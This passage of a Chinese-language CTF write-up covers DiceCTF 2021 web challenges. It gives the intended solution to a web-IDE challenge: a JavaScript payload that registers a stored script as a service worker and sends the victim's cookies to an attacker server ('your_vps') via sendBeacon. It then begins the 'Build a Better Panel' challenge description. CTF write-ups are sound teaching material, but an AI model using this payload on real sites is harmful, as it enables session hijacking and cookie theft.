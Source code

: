 ### <a class="reference-link" name="Author%20Intended%20Solution"></a>Author Intended Solution

其中这个题的预期解是使用 ServiceWorker ，虽然存储路由可以存储任意 javascript 代码但是因为 content-type 没办法执行，我们可以利用 service-worker 将其注册成为一个 sw ，然后可以通过拦截 fetch 请求来实现我们将 cookie 外带的一个效果，具体代码如下

```
&lt;iframe id='f' src='https://web-ide.dicec.tf/sandbox.html'&gt;&lt;/iframe&gt;
&lt;script&gt;
f.addEventListener('load', () =&gt; `{`
  f.contentWindow.postMessage(`[].slice.constructor('return this')().fetch("https://web-ide.dicec.tf/ide/save", `{`
  "headers": `{`
    "content-type": "application/javascript",
  `}`,
  "body": "self.addEventListener('fetch', e=&gt;`{`if (e.request.method != 'GET') `{`return;`}` e.respondWith(new Response('&lt;script&gt;navigator.sendBeacon(\\\\\\\\'your_vps\\\\\\\\', document.cookie)&lt;/sc'+'ript&gt;',`{`headers:`{`\\\\'content-type\\\\':\\\\'text/html\\\\'`}``}`));`}`);",
  "method": "POST",
  "mode": "cors",
  "credentials": "include"
`}`).then(response=&gt;response.text()).then(path=&gt;`{`[].slice.constructor('return this')().navigator.serviceWorker.register('/ide/saves/'+path, `{`scope: '/ide/saves/'`}`)`}`);`, '*');
setTimeout(() =&gt; `{`location = 'https://web-ide.dicec.tf/ide/saves/'`}`, 1000)
`}`)
&lt;/script&gt;

```

PS:注意 body 当中反斜杠转义的个数，盲猜安全客的转义机制会把反斜杠给弄掉几个…[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t013f54a0e4402dd0f4.png)



## Build a Better Panel

### <a class="reference-link" name="Description"></a>Description

BAP wasn’t secure enough. Now the admin is a bit smarter, see if you can still get the flag! If you experience any issues, send it [here](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=build-a-better-panel)

NOTE: The admin will only visit sites that match the following regex `^https:\/\/build-a-better-panel\.dicec\.tf\/create\?[0-9a-z\-\=]+$`

Site: [build-a-better-panel.dicec.tf](https://build-a-better-panel.dicec.tf/)

附件地址：[https://dicegang.storage.googleapis.com/uploads/ad5561c4f54908fb3457825fe9cdec9d8d23b7599d0f088689628d6bc92b4ff1/build-a-better-panel.tar.gz](https://dicegang.storage.googleapis.com/uploads/ad5561c4f54908fb3457825fe9cdec9d8d23b7599d0f088689628d6bc92b4ff1/build-a-better-panel.tar.gz)

### <a class="reference-link" name="Solution"></a>Solution
